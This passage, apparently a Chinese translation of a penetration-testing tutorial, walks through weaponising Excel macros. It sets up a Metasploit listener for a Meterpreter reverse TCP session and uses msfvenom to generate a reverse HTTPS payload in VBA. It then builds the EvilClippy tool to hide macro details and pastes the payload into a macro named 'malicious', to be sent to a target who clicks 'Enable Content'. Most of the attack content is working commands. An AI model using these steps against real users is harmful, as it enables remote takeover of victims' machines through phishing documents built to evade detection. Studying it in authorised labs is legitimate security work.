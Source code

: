 ![img](https://i2.wp.com/1.bp.blogspot.com/-RSuqsHAhsh4/XlaWQlkiaCI/AAAAAAAAi1c/3s7p7MafkGofhRtJ9aZBqGst6hcSESygQCLcBGAsYHQ/s1600/28.png?w=687&ssl=1)

我们将有效负载发送到目标，然后打开Excel工作簿。查找安全警告，如下图所示。在执行任何此操作之前，请确保已运行侦听器以捕获有效负载生成的会话。完成所有设置后，目标用户只要单击“启用内容”，我们便拥有该用户的抄表会话。

![img](https://i1.wp.com/1.bp.blogspot.com/-XbbvkCL73LA/XlaWQ1iSPHI/AAAAAAAAi1g/eTlN-ay9b545FiDqVuvvI2Aa0mfQ-cYRQCLcBGAsYHQ/s1600/29.png?w=687&ssl=1)

我们为侦听器设置了与使用MSFVenom工具生成时使用的有效负载相同的负载。我们还提供了我们的Kali机器的本地IP地址以及在制作有效负载时提到的端口。

| 12345 | use multi/handlerset payload windows/meterpreter/reverse_tcpset lhost 192.168.152.131set lport 6666run |
| ----- | ------------------------------------------------------------ |
|       |                                                              |

![img](https://i2.wp.com/1.bp.blogspot.com/-XqtU-EA185E/XlaWRstdelI/AAAAAAAAi1o/EIyBmHPc0tUVOga5iDN9Pc-jwELz_DLdACLcBGAsYHQ/s1600/30.png?w=687&ssl=1)

### **邪恶的飞剪机**

如果您是使用旧版本Microsoft Office的Windows XP用户，那么您很有可能遇到了Microsoft当时使用的动画剪辑吉祥物。此工具是对该工具的纪念，如果该Clipper变为Evil并且隐藏了宏的详细信息，将会发生什么。怎么样？让我们找出答案。

与往常一样，我们需要设计一个可以返回反向HTTPS会话的有效负载。我们提供了Kali机器的本地IP地址以及将捕获由所述有效负载生成的会话的端口。我们以VBA格式生成此有效负载。生成有效负载后，我们将有效负载的内容复制到剪贴板上，然后继续到Windows机器上。

| 1    | msfvenom -p windows/meterpreter/reverse_https lhost=192.168.152.131 lport=1234 -f vba |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

![img](https://i0.wp.com/1.bp.blogspot.com/-oPUVRHAHUYs/XlaWRknySpI/AAAAAAAAi1s/yi_fv592neYN01gEWVGcuIx32c4pdvWzwCLcBGAsYHQ/s1600/31.png?w=687&ssl=1)

在这里，我们使用git clone命令将Evil Clippy工具克隆到我们的Windows计算机。对于此特定步骤，我们需要在Windows上安装git。同样，将git也添加到PATH变量中。

| 1    | git clone https://github.com/outflanknl/EvilClippy.git |
| ---- | ------------------------------------------------------ |
|      |                                                        |

![img](https://i1.wp.com/1.bp.blogspot.com/-PbDRsAoZcz0/XlaWR2fCxiI/AAAAAAAAi1w/79p1k8dAhokYSaOhPr7qpZaVzI3GNA4zQCLcBGAsYHQ/s1600/32.png?w=687&ssl=1)

克隆EvilClippy git之后，查找文件。在这些文件中，我们看到我们没有可执行文件。我们将使用Visual Studio C＃编译器中的csc构建可执行文件。构建完成后，我们看到在同一目录中有一个可执行文件。我们尝试运行可执行文件，如下图所示。  

| 12   | csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs.\EvilClippy.exe -h |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

![img](https://i0.wp.com/1.bp.blogspot.com/-UeB1AC2cHlo/XlaWSd1U7iI/AAAAAAAAi10/kJtoTA0n-X48ZdAgzoCLMnXuwCqtH3fmwCLcBGAsYHQ/s1600/33.png?w=687&ssl=1)

接下来，我们打开一个Excel工作簿。然后按照本文前面的步骤创建宏。在下面给出的图像中，我们将宏命名为“ malicious”，然后单击“创建”按钮。

![img](https://i0.wp.com/1.bp.blogspot.com/-6jfMi7TV2z8/XlaWSjH0m5I/AAAAAAAAi14/tlKfrleV-04mW_k0B8KM0Dq1HI1cxI5VACLcBGAsYHQ/s320/34.png?w=687&ssl=1)

一旦单击创建按钮，我们就可以使用Microsoft Visual Basic for Applications来草拟宏。在这里，我们将有效负载代码粘贴到在实践开始时创建的VBS中。

![img](https://i2.wp.com/1.bp.blogspot.com/-8Lbe7CbTFFA/XlaWTS3T1eI/AAAAAAAAi18/270TNrxtcxUFIvC0c9hl1wva5hnf2alQgCLcBGAsYHQ/s1600/35.png?w=687&ssl=1)
